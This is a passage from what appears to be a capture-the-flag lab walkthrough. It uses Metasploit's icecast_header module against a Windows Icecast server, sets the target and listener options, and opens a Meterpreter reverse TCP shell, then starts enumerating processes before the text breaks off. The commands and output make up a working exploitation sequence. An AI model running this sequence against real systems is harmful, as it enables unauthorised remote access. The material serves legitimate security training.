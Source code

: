 ```
```
**Answer**: `exploit/windows/http/icecast_header`
### What is the only required setting which currently is blank?
```
msf6 exploit(windows/http/icecast_header) > show options

Module options (exploit/windows/http/icecast_header):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT   8000             yes       The target port (TCP)


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.1.12     yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic
```
**Answer**: `RHOSTS`
## Escalate
### What's the name of the shell we have now?
```
msf6 exploit(windows/http/icecast_header) > set RHOSTS <MACHINE_IP>
RHOSTS => <MACHINE_IP>
msf6 exploit(windows/http/icecast_header) > set LHOST tun0
LHOST => <OPENVPN_IP>
msf6 exploit(windows/http/icecast_header) > exploit 

[*] Started reverse TCP handler on <OPENVPN_IP>:4444 
[*] Sending stage (175174 bytes) to <MACHINE_IP>
[*] Meterpreter session 1 opened (<OPENVPN_IP>:4444 -> <MACHINE_IP>:49197) at 2021-04-20 19:39:24 +1000

meterpreter > sysinfo
```
**Answer**: `meterpreter`
### What user was running that Icecast process?
```
meterpreter > ps

Process List
============

 PID   PPID  Name                  Arch  Session  User          Path
 ---   ----  ----                  ----  -------  ----          ----
 0     0     [System Process]
 4     0     System
 144   2676  WinSAT.exe            x64   1
```